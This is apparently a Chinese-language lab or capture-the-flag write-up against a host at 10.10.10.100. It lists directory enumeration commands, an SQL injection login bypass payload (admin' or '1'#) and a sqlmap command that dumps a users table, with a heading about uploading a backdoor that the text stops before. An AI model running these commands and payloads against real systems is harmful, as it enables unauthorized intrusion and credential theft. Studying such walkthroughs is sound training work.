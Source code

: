 ```plain
dirsearch -u "http://10.10.10.100" -o dirsearch_info
gobuster dir -u http://10.10.10.100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
dirb http://10.10.10.100 -o dirb_info

whatweb "http://10.10.10.100/blog/"
```

> /blog 内容管理系统、博客，  
> /info 显示了了 phpinfo() 内容，  
> /includes 文件列表，/images 文件列表  
> /blog 博客页由 Simple PHP 搭建。MetaGenerator\[Simple PHP Blog 0.4.0\], PHP\[5.3.5-1ubuntu7\]

### PORT 80

[http://10.10.10.100](http://10.10.10.100/) “欢迎来到内网”（登录、注册）  
[http://10.10.10.100/blog](http://10.10.10.100/blog) 内容管理系统（登录、搜索、内容提交）

<1>注册后登录会一直显示 "Logging in...."，不排除可能有 waf 这种机制存在，很可能某些操作会被判定为恶意行为然后被 block 掉

<2>经过测试，发现首页的登录功能，用户名单引号会报错，使用万能密码 admin' or '1'#可以登录，该页面存在 sql 注入。直接使用 sqlmap

[![](assets/1703831504-01d0132c287b5a64c991976030016dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163834-525673fc-a493-1.png)

### sqlmap 后门上传

<1>注入点测试 拿数据

```plain
//POST 注入
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --batch -D ch16 -T users --dump
```

[![](assets/1703831504-29c3396788c52601eb738f6b32d09742.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163842-5761ff9c-a493-1.png)

